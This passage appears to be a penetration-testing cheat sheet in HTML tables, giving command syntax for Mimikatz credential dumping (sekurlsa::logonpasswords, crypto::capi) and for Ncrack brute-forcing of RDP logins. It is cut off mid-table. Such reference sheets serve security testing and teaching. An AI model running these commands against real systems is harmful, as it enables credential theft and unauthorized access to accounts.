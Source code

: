 <h3>Mimikatz</h3>
<table border="1" cellspacing="0" cellpadding="4">
  <thead>
    <tr>
      <th>Command/Flag</th>
      <th>Syntax Example</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>mimikatz</code></td>
      <td><code>mimikatz.exe</code></td>
      <td>Launches Mimikatz for Windows credential dumping.</td>
    </tr>
    <tr>
      <td><code>privilege::debug</code></td>
      <td><code>privilege::debug</code></td>
      <td>Elevates privileges for credential extraction.</td>
    </tr>
    <tr>
      <td><code>sekurlsa::logonpasswords</code></td>
      <td><code>sekurlsa::logonpasswords</code></td>
      <td>Dumps credentials from memory.</td>
    </tr>
    <tr>
      <td><code>crypto::capi</code></td>
      <td><code>crypto::capi</code></td>
      <td>Dumps cryptographic keys.</td>
    </tr>
  </tbody>
</table>

<h3>Ncrack</h3>
<table border="1" cellspacing="0" cellpadding="4">
  <thead>
    <tr>
      <th>Command/Flag</th>
      <th>Syntax Example</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>ncrack</code></td>
      <td><code>ncrack -p 3389 192.168.1.100</code></td>
      <td>Invokes Ncrack for network authentication brute force (e.g., RDP).</td>
    </tr>
    <tr>
      <td><code>-p [port]</code></td>
      <td><code>-p 3389</code></td>
      <td>Specifies the target port.</td>
    </tr>
    <tr>
      <td><code>[target]</code></td>
      <td><code>192.168.1.100</code></td>
      <td>Specifies the target IP address.</td>
    </tr>
    <tr>
      <td><code>-U [userfile]</code></td>
      <td><code>-U users.txt</code></td>
      <td>Uses a file containing usernames.</td>
    </tr>
    <tr>
